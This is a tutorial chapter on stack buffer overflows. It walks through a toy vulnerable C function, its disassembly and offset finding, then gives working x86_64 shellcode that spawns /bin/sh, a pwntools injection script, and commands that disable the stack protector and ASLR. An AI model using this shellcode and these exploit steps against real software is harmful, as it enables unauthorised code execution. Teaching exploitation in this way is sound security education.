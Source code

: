 # Chapter 1. Stack Smashing
In this chapter, we discuss the most common and easy-to-understand memory-safety problems: stack buffer overflow. An attacker could leverage such bugs to modity the stack and achieve malicious goals, knowning as stack smashing. We will not dive into the technical details of exploit writting (there are many such tutorials and tools available online, e.g., for CTF training) but mainly discuss why such bugs are dangerous and show how attacks could happen in practice. 

## Section 1.1 Stack Smashing

### 1.1.1 Warm Up
Let's use the following code snippet as a toy example, which contains a validation process that requires the user to input a key to pass the validation. The code contains a buffer overflow bug because the length of buf is 64 while it may read 160 byte data. Supposing the user neither know a valid key nor can obtain the source code. How can he find a key to pass the validation? 

```
int validation() {
    char buf[64];
    read(STDIN_FILENO, buf, 160);
    if(buf[0]=='$'){ //any code to check the input
        write(STDOUT_FILENO, "Key verified!\n", 14);
        return 1;
    }else{
    	write(STDOUT_FILENO, "Wrong key!\n", 11);
    }
    return 0;
}
```
The trick lies in the stack layout, and we can obtain the layout by analyzing its assembly code.
```
0x401150 <+0>:     push   %rbp
0x401151 <+1>:     mov    %rsp,%rbp
0x401154 <+4>:     sub    $0x50,%rsp
0x401158 <+8>:     xor    %edi,%edi
0x40115a <+10>:    lea    -0x50(%rbp),%rsi
0x40115e <+14>:    mov    $0xa0,%edx
0x401163 <+19>:    callq  0x401050 <read@plt>
0x401168 <+24>:    movsbl -0x50(%rbp),%ecx
0x40116c <+28>:    cmp    $0x24,%ecx
0x40116f <+31>:    jne    0x40119a <+74>
0x401175 <+37>:    mov    $0x1,%edi
0x40117a <+42>:    movabs $0x402004,%rsi
0x401184 <+52>:    mov    $0xe,%edx
0x401189 <+57>:    callq  0x401030 <write@plt>
0x40118e <+62>:    movl   $0x1,-0x4(%rbp)
0x401195 <+69>:    jmpq   0x4011ba <+106>
0x40119a <+74>:    mov    $0x1,%edi
0x40119f <+79>:    movabs $0x402013,%rsi
0x4011a9 <+89>:    mov    $0xb,%edx
0x4011ae <+94>:    callq  0x401030 <write@plt>
0x4011b3 <+99>:    movl   $0x0,-0x4(%rbp)
0x4011ba <+106>:   mov    -0x4(%rbp),%eax
0x4011bd <+109>:   add    $0x50,%rsp
0x4011c1 <+113>:   pop    %rbp
0x4011c2 <+114>:   retq
```
![image](./figures/chapt1-stack-main.png)

Let's assume the our porpose is to enforce the function to return 1, so we can trace the data flow of the return value backwards. Starting from Line <+106>, we know the return value of the register (%eax) is moved from the stack -0x4(%rbp). Line <+99> saves 0x0 to -0x4(%rbp), while Line <+62> saves 0x1 to -0x4(%rbp). So we can tamper the buffer of -0x4(%rbp) to bypass the validation. Line <+4> tells us the assembly code increases the stack size with 0x50. We can compute the offset of -0x4(%rbp) to the register %rsp should be 0x4b or 76 in decimal. In order to let the function return 1, we can input a 76-byte buf with the last four bytes to be 1.

### 1.1.2 Stack Smashing
A stack smashing attack contains three major steps:
- Step 1. Detect buffer overflow bugs or find an input that can crash a program. This is usually done via fuzz testing. 
- Step 2. Analyze stack layout of the buggy code. In practice, attackers may not be able to obtain the executables. 
- Step 3. Design the exploit. To obtain the shell. e.g., with return-oriented programming.

Now, we discuss a more general senario, i.e., 1) the attacker cannot obtain the binaries, and 2) his goal is to obtain the shell. 

#### 1.1.2.1 Stack Layout Analysis
The purpose is to obtain the offset of the return address so that we can point it to the another code address, e.g., shell code. Let's still use our previous toy program for demonstration. The idea is to input several 'A's (hexdecimal ASCII: 0X41). If it has changed the return addresses, then the program will not be able to continue the execution and report the bad return address. We can gradually increase the length of the input to learn the offset of the return address. 

| previous frame |
|:--------------:|
|   ret address  |
|       ...      |
|    AAAAAAAA    |

Before experiments, we need to turn on the core dump message
```
#: ulimit -c unlimited
#: sudo sysctl -w kernel.core_pattern=core
```

Input several 'A's and check the core dump message.
```
#: python -c 'print "A"*92'
#:./bug 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA…
Wrong license!
Segmentation fault (core dumped)

#: gdb --core core 
...
Program received signal SIGSEGV, Segmentation fault.
0x0000000a41414141 in ?? ()
```
The log message displays a segmentation fault caused by a invalid return address 0x0000000a41414141. Because there are four 'A's, we can know the offset of the return address should be 92-4=88. Note that if you try more a 'A's, the error message may not be 0x0000414141414141 but another different address because 0x0000414141414141 is an invalid code address to the OS.

#### 1.1.2.2 Design the Exploit 
The following code is a shellcode snippts for x86_64, which executes system("/bin/sh"). 
```
xor eax, eax
mov 0xFF978CD091969DD1, rbx
neg rbx
push rbx
push rsp
pop rdi
cdq
push rdx
push rdi
push rsp
pop rsi
mov 0x3b, al
syscall
```

We can test if the shellcode works via the following code. It first encodes and saves the shellcode as a char array, and then jumps to it as a function call.
```
const char shellcode[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main (void) {
  char buf[256];
  int len = sizeof(shellcode);
  for(int i=0; i<len; i++)
	 buf[i] = shellcode[i]; 
  ((void (*) (void)) buf) ();
}
```

If it works, we can inject the shellcode to the vulnerable program.
```
#! /usr/bin/env python
from pwn import *

ret = 0x7fffffffe1d0
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload = shellcode + "A" * (88-len(shellcode)) + p64(ret)
p = process("./bug")
p.send(payload)
p.interactive()
```

Execute the attacking code. If you are lucky enough, you should be able to obtain the following result.
```
#: python hijack.py 
[+] Starting local process './bug': pid 48788
[*] Switching to interactive mode
Input your key:Wrong key!
$ whoami
hui
$ 
```

If not, it possibly means you are using the stack protector or the ASLR. Turn off the stack protector when compiling the buggy program to eable the data on the stack to be executable.
```
#: clang -fno-stack-protector -z execstack bug.c
```

You can also turn off the ASLR as following.
```
#: echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## Section 2. Protection Techniques
